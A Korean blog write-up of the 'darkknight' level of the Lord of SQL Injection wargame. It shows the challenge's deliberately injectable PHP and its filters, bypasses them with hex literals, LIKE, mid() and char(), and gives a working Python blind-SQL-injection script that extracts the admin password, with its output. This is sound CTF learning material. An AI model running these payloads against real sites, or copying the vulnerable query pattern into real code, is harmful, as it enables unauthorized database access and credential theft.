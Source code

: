 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkknight 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 뭔가 쓸데없이 오타도 많이내고, 뭔가 자잘한 삽질을 많이 한 문제이다.  

잠을 제대로 못자서 그런건지 바보같은 삽질을 했다.  

`darkknight` 라는 문제인데, 얘도 `Blind SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='' and no=
---------------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이번엔 `ascii`도 사용을 못하고 `'`도 사용할 수 없다.  

그럼 쿼리문에서 사용하는 `id = 'admin'`이라는 문자를 사용할 수 없다.  

이 문제에 대해서는 금방 답을 찾았다.  

바로 `hex` 값을 이용하는 것이다.  

`id = 'admin'` 대신 `id = 0x61646d696e`를 입력해도 같은 결과를 얻을 수 있다.  

그럼 `admin`의 `pw`의 길이를 구하는 쿼리는 아래와 같이 완성된다.  

```
?pw=1&no=0 or id like 0x61646d696e and length(pw) like 1
```

문제는 `pw`를 한 글자 씩 알아낼 때 이다.  

`'`를 사용할 수 없으므로, `mid` 함수를 통해 `pw`를 한 글자 씩 뽑는다 하더라도 비교를 할 수가 없다.  

처음에는 MySQL에 있는 `hex` 함수를 사용할까 했다.  

여기서 삽질한게, `hex`는 `10진수를 16진수 값으로` 혹은 `16진수를 10진수 값으로` 바꾸어주는 함수인데, 나는 이걸 알고있었는데도 `16진수 값을 입력하면 비교가 되겠지!` 하고 생각했다.  

추출되는 값은 `char` 형태의 문자기 때문에 당연히 비교할 수 없다.  

그 다음에는 `char` 함수를 사용하는 것을 생각했다.  

여기서 두번째 삽질을 했는데, `char` 함수의 인자는 `10진수 숫자`가 들어가야 한다.  

근데 코드를 이 전에 풀었던 코드를 가져와 살짝만 수정해서 사용하다보니, 파이썬 코드에서 `chr(i)`를 쿼리의 `char` 함수의 인자로 넣어주고 있었다.  

문제가 안풀리길래 `도대체 왜지...` 이러다가 쿼리를 출력 해 보고서야 깨달았다.  

쨌든 `pw`를 구하는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1&no=0 or id like 0x61646d696e and mid(pw, 1, 1) like char(48)
```

우여곡절 끝에 완성된 코드는 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1&no=0 or id like 0x61646d696e and length(pw) like " + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1&no=0 or id like 0x61646d696e and mid(pw, " + str(j) + ", 1) like char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

드디어 제대로 된 결과를 얻을 수 있었다.  

쓸데없는 삽질 후에 얻은 값진 `admin`의 `pw`이다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0B
[+] Found 3 : 0B7
[+] Found 4 : 0B70
[+] Found 5 : 0B70E
[+] Found 6 : 0B70EA
[+] Found 7 : 0B70EA1
[+] Found 8 : 0B70EA1F
[+] Found password :  0B70EA1F
[+] End
```

알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=0b70ea1f
```

```php
--------------------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=
--------------------------------------------------------------------------------------------------------------

DARKKNIGHT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

`DARKKNIGHT Clear!!`
